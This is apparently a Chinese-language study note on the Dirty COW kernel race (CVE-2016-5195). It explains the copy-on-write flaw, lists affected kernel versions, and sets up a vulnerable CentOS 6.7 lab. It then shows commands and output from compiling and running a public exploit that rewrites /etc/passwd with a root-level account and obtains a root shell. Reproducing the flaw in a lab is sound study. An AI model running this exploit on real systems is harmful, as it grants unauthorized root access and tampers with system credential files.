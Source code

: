 第一次访问某个分配出来的页时，会运维延迟绑定机制，没有建立和物理页的映射，`follow_page_mask`返回NULL，`faultin_page`会建立物理页的映射，然后retry

第二次如果发现物理页没有写的权限，会通过`faultin_page`进行copy on write

`follow_page_mask()`判断内存页会被写入是根据`foll_flags`的`FOLL_WRITE`标志位判断的，但是决定向该内存页写入数据是由 `mem_rw()` 函数的参数 `write` 决定的，触发竞争





### 测试

安装一个centos6.7 https://archive.kernel.org/centos-vault/6.7/isos/x86_64/

> centos 旧版不论是阿里的还是网易的镜像都不再支持了，只能在这个旧版本centos的网站上下 https://vault.centos.org/
>
> minimal版本的镜像安装时要先创建虚拟机，再添加镜像文件，否则默认是带桌面ui的，vmware安装时会报错卡死

查看内核

```bash
[root@localhost ~]# uname -r
2.6.32-573.el6.x86_64
```

比影响范围中的版本要早：

```
Centos7/RHEL7     3.10.0-327.36.3.el7
Cetnos6/RHEL6     2.6.32-642.6.2.el6
Ubuntu 16.10      4.8.0-26.28
Ubuntu 16.04      4.4.0-45.66
Ubuntu 14.04      3.13.0-100.147
Debian 8          3.16.36-1+deb8u2
Debian 7          3.2.82-1
```

~~为了装这个旧版的centos6.7踩了一堆坑😭~~

用一个别人写好的exp （https://github.com/FireFart/dirtycow）：

```bash
[test@localhost ~]$ gcc -pthread pwn.c -o dirty -lcrypt
[test@localhost ~]$ ls
dirty  pwn.c
[test@localhost ~]$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fik57D3GJz/tk:0:0:pwned:/root:/bin/bash

mmap: 7fb864ede000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'firefart'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
[test@localhost ~]$ su firefart
Password:
[firefart@localhost test]#
```

